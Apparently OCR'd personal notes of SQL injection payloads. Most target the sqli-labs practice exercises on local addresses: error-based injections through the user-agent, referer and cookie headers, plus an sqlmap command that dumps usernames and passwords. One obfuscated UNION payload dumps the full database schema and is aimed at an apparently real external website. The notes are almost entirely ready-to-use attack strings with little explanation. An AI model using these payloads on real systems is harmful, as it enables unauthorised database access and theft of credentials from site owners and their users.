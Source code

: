 sqlmap -u -v "http://192.168.0.115/sqli/example7.php?id=2%0a" --dump -C username,password -T users -D exercises




http://www.interaliaproject.com/news.php?id=-160'/*!50000UNION*/ SELECT 1,2,(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x),4,5,6--+

//Cookie Injection 
http://192.168.0.110/sqli-labs-master/Less-18/


Column count doesn't match value count at row 1 //Saying that insert statement

user agent ==> add new user agent and pass it '
and solve error
if the error show column doesnot match ==>
in the user agent  add ==> ','b'  ,'c')#

in the user agent  add ==> ','b'  ,'c')#

','b' or (select 1 from (select count(*),concat((select(select concat(cast(version() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
,'c')#

//Referer
http://192.168.0.110/sqli-labs-master/Less-19/
','a' or (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) )#



http://192.168.0.110/sqli-labs-master/Less-20/index.php //After successful login ===> cookie is set ==>
Cookie: uname=admin'and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+; PHPSESSID=4249kr7nm95nmuckp6129st1h7
